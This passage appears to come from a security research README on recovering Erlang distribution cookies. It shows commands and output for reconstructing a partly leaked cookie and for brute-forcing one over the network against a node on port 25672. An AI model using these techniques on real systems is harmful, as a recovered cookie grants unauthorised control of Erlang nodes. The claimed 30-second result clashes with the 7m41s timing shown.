 ### Completing a partly leaked cookie

Imagine that a crash has given you only a part of the cookie. Due to its nature, missing parts can be completed ! For starter, let's begin with just a missing character, at the beginning:

```
$ time ./complete-cookie .ICIEBZGURYVBZWLJTFI
IICIEBZGURYVBZWLJTFI (seed = 506551409)

real	0m2.027s
user	0m15.774s
sys	0m0.021s
```

Mission accomplished, though bruteforcing the 26 possible first character would have been much easier. But let's take a more complex example, only the last seven characters were dumped:

```
$ time ./complete-cookie .............ZWLJTFI
QYUFBUCVATYSFZWLJTFI (seed = 25860583736)
DZQLCMSUWKIIWZWLJTFI (seed = 22290780982)
IICIEBZGURYVBZWLJTFI (seed = 506551409)
SPRNLDKPIEAKVZWLJTFI (seed = 40262700267)
MKLNNWZUXYQCXZWLJTFI (seed = 54109041624)
WSBSUZKCKLRRRZWLJTFI (seed = 25145713746)

real	0m2.201s
user	0m15.618s
sys	0m0.043s
```

### Bruteforcing Erlang cookie

When you have found an open suitable port, you can use [bruteforce-erldp](bruteforce-erldp.c) to sweep a seed interval and perform network exchanges to authenticate.

**In the context of the above hardware setup, using the computed interval uncovers the Erlang cookie in 30 seconds:**

```
$ time ./bruteforce-erldp --threads=16 --seed-start=381410768 --seed-end=386584488 --gap=1000 192.168.1.36 25672
16 workers will start, sweeping through [381410768, 386584488]
each worker will sweep though an interval of size 323358
 6766 seed/s (6767 conn/s)		57.57%
found cookie = UDPQJJNGQLLDNASUKRRN

real	7m41.043s
user	0m31.372s
sys	7m8.548s
```

Bruteforce is not always entitled with success. In particular, Erlang cookies which have not been generated by Erlang will not be guessable. However, Erlang runtime does not put throttling protection, nor lock out mecanism based on attempting source IP, so ... it is worth trying it.

